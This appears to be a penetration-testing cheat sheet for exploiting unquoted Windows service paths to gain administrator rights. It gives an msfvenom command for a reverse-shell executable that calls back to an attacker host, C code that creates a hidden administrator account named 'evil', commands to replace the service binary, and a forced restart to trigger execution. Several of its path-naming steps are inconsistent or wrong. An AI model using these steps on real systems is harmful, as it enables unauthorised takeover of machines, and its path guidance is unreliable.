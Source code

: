 # Unquoted Service Path Attack

### Identify a writable directory where the target file is located

- ***If the target file is located in `C:\Program Files\cater\cater_term.exe` we should see if the following a writable:***

1. `C:\`, if this is writable we would name the payload `Program.exe`
2. `C:\Program\`, if this is writable we would name the payload `Files.exe`
3. `C:\Program Files\`, if this is writable we would name the payload `carter.exe`
4. `C:\Program Files\carter\`, if this is writable we would name the payload `carter_term.exe` and delete/rename the original `carter_term.exe`

- ***Steps to rename/delete the file so we can replace it:***

1. Rename: `Rename-Item -Path "C:\<Full Path\<File Name>" -NewName "C:\<Full Path\<New Name>"`
2. Delete" `Remove-Item -Path "C:\<Full Path\<File Name>"` and for recusive, add a `-recurse`

- ***Creating the payload:***

1. Create a reverse shell executable with msfvenom `msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`
2. Create a new administrator account with some compiled C code and use `gcc <program.c> -o <executable name.exe>` to compile it
```
    #include <stdlib.h>
    int main ()
    {
      int i;
      
      i = system ("net user evil Ev!lpass /add");
      i = system ("net localgroup administrators evil /add");
      
      return 0;
    }
```
- ***Execution:***

1. Once payload is in position, and any other listeners are set up, execut `Restart-Computer` to restart the computer and either created a new admin or got an admin shell.
